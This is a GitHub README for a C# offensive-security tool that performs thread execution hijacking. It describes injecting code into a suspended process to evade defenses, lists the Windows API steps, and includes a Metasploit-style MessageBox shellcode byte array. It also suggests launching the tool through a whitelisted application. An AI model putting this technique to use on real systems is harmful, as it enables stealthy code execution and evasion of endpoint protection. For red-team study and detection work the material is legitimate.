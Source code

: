 # ThreadHijacking_CSharp

Blog link: may not gonna update

- Base on my other projects down below.
	1. [ProcessHollowing](https://github.com/Kara-4search/ProcessHollowing_CSharp)
	
- Injecting malicious code into hijacked processes in order to evade process-based defenses as well as possibly elevate privileges. 
- Thread Execution Hijacking is a method of executing arbitrary code in the address space of a separate live process.

![ThreadHijacking](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/ThreadHijacking_gif.gif)

- Steps
	1. Create a process in a suspended status;
	2. Allocate some executable memory for "shellcode" in the target process with VirtualAllocEx.
	3. Copy the shellocde into the memory with NtWriteVirtualMemory.
	4. Retrieve the target thread's context with GetThreadContext.
	5. Update the target thread's instruction pointer (x64 RIP/x86 EIP register) to point to the shellcode, which was written into the target process's memory in step 3.
	6. Commit the hijacked thread's (upadated in step 5) new context with SetThreadContext.
	7. Resume the hijacked thread with ResumeThread.

- Tested on Win10 x86/64 works fine.	
- The shellcode below is a messagebox
```
/* MessageBox */
byte[] buf1 = new byte[323] {
	0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,
	0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
	0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
	0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,
	0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,
	0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
	0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
	0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,
	0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,
	0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
	0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
	0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x3e,
	0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,
	0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
	0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,
	0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0x1a,0x01,0x00,0x00,0x3e,0x4c,0x8d,
	0x85,0x2b,0x01,0x00,0x00,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,
	0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
	0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
	0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x48,0x65,0x6c,0x6c,0x6f,
	0x2c,0x20,0x66,0x72,0x6f,0x6d,0x20,0x4d,0x53,0x46,0x21,0x00,0x4d,0x65,0x73,
	0x73,0x61,0x67,0x65,0x42,0x6f,0x78,0x00 };
```

## Usage
1. Just launch through a white-list application
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/ThreadHijacking.png)
	
## TO-DO list
- NONE

## Update history
- NONE

## Reference link:
	1. https://idiotc4t.com/code-and-dll-process-injection/setcontext-hijack-thread
	2. https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking
	3. http://blog.leanote.com/post/snowming/a1427bca0ca7
	4. https://attack.mitre.org/techniques/T1055/003/
	5. https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1055-process-injection/thread-execution-hijacking




	
	
